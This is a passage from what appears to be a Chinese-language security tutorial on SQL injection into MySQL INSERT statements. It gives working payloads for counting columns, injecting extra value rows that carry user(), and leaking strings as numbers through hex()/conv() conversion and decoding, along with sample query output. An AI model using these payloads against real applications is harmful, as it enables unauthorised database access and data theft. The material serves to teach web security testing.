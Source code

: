 假如`0','1')#`成功，则本字段后面有1个字段，再检查 `前字段`:

```sql
0','1'),('
0','1'),('1','
0','1'),('1','2','
0','1'),('1','2','3','
```

假如`0','1'),('1','2','`成功，则本字段前面有2个字段，总字段就是2+1+1=4，可以利用的是就是这两个`前字段`，因为本字段仍需被单引号闭合，后面是语句中固定，无法利用。例如：

```sql
insert into article (date, title, content) values ('2018-03-21','inject here','content');
```

注入点是第二个字段，如果第一个字段的内容无法查看，也就不能采取这种方式利用了。

##### 转换字符串为数字

参考：[一种新的MySQL下Update、Insert注入方法](https://www.anquanke.com/post/id/85487)



```sql
[payload]:  '+conv(hex(substr((user()),1,6),16,10)+'

[sql]:      insert into article (data, title, content) values ('2018-03-21',''+conv(hex(substr((user()),1,6),16,10)+'','content');
```



原理：由于在mysql中想要拼接字符串只能使用concat()函数，而使用`or，and，+，|，&, ^ `都会变为数字运算或逻辑运算：


```sql
mysql> select ('ab'+10),('ab'&10),('ab'^10),('ab'|10),('ab'||10),('ab' and 10),('ab' or '10');
+-----------+-----------+-----------+-----------+------------+---------------+----------------+
| ('ab'+10) | ('ab'&10) | ('ab'^10) | ('ab'|10) | ('ab'||10) | ('ab' and 10) | ('ab' or '10') |
+-----------+-----------+-----------+-----------+------------+---------------+----------------+
| 10        | 0         | 10        | 10        | 1          | 0             | 1              |
+-----------+-----------+-----------+-----------+------------+---------------+----------------+
```

可见无法将'ab'的相关信息算入表达式中，但是采取hex()函数转换即可将字符串转换为十六进制数字

```sql
mysql> select ''+hex('ab');
+--------------+
| ''+hex('ab') |
+--------------+
| 6162         |
+--------------+
1 rows in set (0.02 sec)
```


但是当hex()函数的参数字符串过长时可能无法显示：

```sql
mysql> select ''+hex(user());
+----------------+
| ''+hex(user()) |
+----------------+
| 726            |
+----------------+
1 rows in set (0.05 sec)

mysql> select hex(user());
+------------------------------+
| hex(user())                  |
+------------------------------+
| 726F6F74406C6F63616C686F7374 |
+------------------------------+
```

[payload]:   1','2'),(user(),'
[sql]:       insert into article (date, title, content) values ('2018-03-21','1','2'),(user(),'','content');
[decode]:    select unhex(conv(125822936825964,10,16));